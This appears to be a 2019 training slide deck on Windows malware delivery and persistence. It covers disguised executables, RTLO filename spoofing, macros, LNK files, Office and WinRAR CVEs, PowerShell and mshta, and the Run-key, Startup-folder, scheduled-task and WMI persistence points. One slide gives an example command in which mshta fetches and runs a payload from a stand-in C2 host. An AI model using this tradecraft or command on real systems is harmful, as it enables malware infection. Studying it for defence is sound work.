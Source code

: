 # Exploit Tech

DuckLL  
2019/11/12 <!-- .element: align="right" -->

--

# Exploit Flow

1. Get control to execution
1. Leverage system tools (optional)
1. Run malware
1. Persistence

---

# Deploy method

--

# Fake Doc

- Word, PDF, Excel... icon
- PE file (.exe)
- 👍: Only need to change icon of PE.
- 👎: The filename extension will be discovered, if user turns on the setting.

--

# RTLO

- A special character
- UNICODE `202e`
- decoy[RTLO]cod.exe -> decoy‮cod.exe
- 👍: Solving the filename extension problem.
- 👎: There is a weird string "exe" at the end of filename

--

# Macro

- VBA scripts in Office documents
- 👍: Stable and high compatibility.
- 👎: In default, the victim should enable macro manually.

--

# LNK

- Word, PDF, Excel, etc ICON
- Can launch program with arguments
- ex: `mshta.exe http://c2.com/payload.hta"
- 👍: Nice decoy icon. And it's easy to leverage system tools.
- 👎: There is a arrow in the bottom right of icon.

--

# OLE Exploit

- RTF file (.rtf)
- EQNEDT32.EXE
- CVE-2017-11882: stackoverflow during font name parse
- CVE-2018-0802: stackoverflow during font name parse
- CVE-2018-0798: stackoverflow during matrix record parse
- 👍: Stable and automatical execution
- 👎: Old 1 day, can't execute on patched version

--

# CVE-2018-20250

- Win RAR exploit
- Writing files into relative path
- 👍: This kind of vulnerability is rare. The decoy content can be various.
- 👎:
  1. The victim didn't use "decompress here" in specified location.
  1. The malware will not execute immediately.

--

# Remote Object

- Download online documents which contain exploit or macro
- 👍: The actor can change or remove the 2nd-stage document.
- 👎: Same as exploit documents and macro documents.

---

# System Tools

--

# Command Line

- cmd.exe (xxx.bat)
- A simple shell to launch other program

--

# Powershell

- powershell.exe (xxx.ps1)
- Very powerful shell
  - run scripts
  - run PE in memroy

--

# VBScript

- cscript.exe (xxx.vbs)
- run scripts

--

# Windows Script Host

- wscript.exe (xxx.js)
- **NOT JAVAACRIPT**
- run scripts

--

# HTA

- mshta.exe (xxx.hta)
- download and run online scripts
- run scripts

---

# Persistence

--

# Registry

- Add a key value into registry
- ex: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- Trigger while user login

--

# File

- Put files into specified folder.
- ex: `%appdata%\Microsoft\Windows\Start Menu\Programs\Startup`
- Trigger while user login

--

# ScheduledTask

- Add a new Windows task scheduler
- Trigger by time

--

# WMI

- Windows Management Instrumentation
- WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs.
- Run Windows Management Object (.mof) scripts
- Trigger while user login, if there is a LOGIN event filter.
